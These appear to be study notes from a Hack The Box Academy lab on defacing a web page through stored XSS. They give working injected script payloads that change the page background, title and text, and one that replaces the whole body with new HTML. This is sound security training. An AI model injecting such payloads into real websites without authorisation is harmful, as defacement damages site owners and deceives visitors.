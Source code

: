 XSS, a stored XSS being the most critical, while a DOM-based being less so

----
`Defacing` a website means changing its look for anyone who visits the website. It is very common for hacker groups to deface a website to claim that they had successfully hacked it, like when hackers defaced the UK National Health Service (NHS) [back in 2018](https://www.bbc.co.uk/news/technology-43812539). Such attacks can carry great media echo and may significantly affect a company's investments and share prices, especially for banks and technology firms.

---

Four HTML elements are usually utilized to change the main look of a web page:

- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`

## Changing Background
```html
<script>document.body.style.background = "#141d2b"</script>
```

Tip: Here we set the background color to the default Hack The Box background color. We can use any other hex value, or can use a named color like `= "black"`.


Once we add our payload to the `To-Do` list, we will see that the background color changed

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```



## Changing Page Title
```html
<script>document.title = 'HackTheBox Academy'</script>
```

## Changing Page Text
```javascript
document.getElementById("todo").innerHTML = "New Text"
```

```javascript
$("#todo").html('New Text');
```


---
we will change the entire HTML code of the main `body`, using `innerHTML`, as follows:
```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

As we can see, we can specify the `body` element with `document.getElementsByTagName('body')`, and by specifying `[0]`, we are selecting the first `body` element, which should change the entire text of the web page. We may also use `jQuery` to achieve the same thing. However, before sending our payload and making a permanent change, we should prepare our HTML code separately and then use `innerHTML` to set our HTML code to the page source.

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

our injected payloads appear at the end:
This is because our injected JavaScript code changes the look of the page when it gets executed, which in this case, is at the end of the source code. If our injection was in an element in the middle of the source code, then other scripts or elements may get added after it, so we would have to account for them to get the final look we need.

